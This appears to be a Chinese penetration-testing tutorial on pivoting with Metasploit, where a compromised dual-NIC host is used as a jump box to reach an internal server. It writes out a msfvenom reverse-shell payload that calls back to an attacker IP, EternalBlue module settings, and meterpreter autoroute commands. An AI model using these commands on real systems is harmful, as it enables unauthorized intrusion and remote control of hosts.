








内网渗透中，如果存在访问不到其它内网主机，而肉鸡又存在双网卡或者多网卡情况，就要考虑在msf中添加静态路由，如下图：



在攻击者A不能直接访问服务器C，但是在拿下内网主机B后，可以通过添加静态路由，借助主机B作为跳板，对服务器C做进一步的渗透

可以通过`msfvenom`制作一个木马，是肉鸡上线，这里我已经做好了

```
msfvenom -p  windows/x64/meterpreter/reverse_tcp lhost=192.168.111.3 lport=8888 -f exe >shell.exe
```



直接ping 10.10.10.134是不能ping通的



这里我直接用ms17-010模块攻击扫描提示网络不可达

```
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 10.10.10.134
```



在当我添加默认路由后，可以探测到服务器C存在ms17-010漏洞

```bash
meterpreter > run get_local_subnets
meterpreter > run autoroute -s 10.10.10.0/24
meterpreter > run autoroute -p
```





当然也通过命令`run post/multi/manage/autoroute`添加肉鸡B上的全部路由




另外介绍一下删除添加的路由

```
route del Subnet Netmask Gateway
```

